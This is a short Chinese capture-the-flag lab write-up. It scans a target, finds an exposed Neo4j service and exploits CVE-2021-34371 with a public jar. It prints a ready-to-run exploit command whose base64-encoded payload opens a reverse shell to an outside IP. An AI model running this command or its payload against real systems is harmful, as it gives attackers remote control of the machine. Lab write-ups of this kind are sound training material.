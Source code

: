 # 春秋云镜-Time

# 外网打点

## 信息搜集

fscan 扫描

[![](assets/1705540441-615b4dba432f8c7d47d1cf41bafd2d4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175111-c7b38f42-b454-1.png)

发现 7687 端口开放，7687 为 Neo4j 端口

## 漏洞利用

搜索相关 RCE 漏洞发现

[https://github.com/zwjjustdoit/CVE-2021-34371.jar](https://github.com/zwjjustdoit/CVE-2021-34371.jar)

直接利用即可

```plain
java -jar rhino_gadget.jar rmi://39.101.181.53:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4Lzc3NzcgMD4mMQ}|{base64,-d}|{bash,-i}"
```
